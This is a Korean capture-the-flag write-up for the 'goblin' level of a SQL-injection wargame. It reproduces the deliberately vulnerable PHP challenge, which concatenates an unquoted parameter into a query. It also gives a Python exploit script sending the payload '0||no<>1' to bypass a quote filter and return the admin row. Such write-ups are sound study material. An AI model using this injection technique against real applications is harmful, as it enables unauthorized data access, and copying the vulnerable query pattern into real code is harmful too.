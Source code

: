 ## GOBLIN Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");  
if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");  
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("goblin");  
highlight_file(__FILE__);  
?>

```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/goblin_e5afb87a6716708e3af46a849517afdc.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['no'] = "0||no<>1"

res = requests.get(url, cookies = cookies, params = params)

if "Clear" in res.text :
    print("[♪] GOBLIN Clear!")
```



``` php
select id from prob_goblin where id='guest' and no=0||no<>1
```
mysql에서 **<>** 기호는 같지 않다는 의미이기 때문에 **no!=1** 과 같은 의미가 된다.  
**$result['id']** 에 guest가 아닌 다른 값, admin이 있기 때문에 문제가 해결된다.
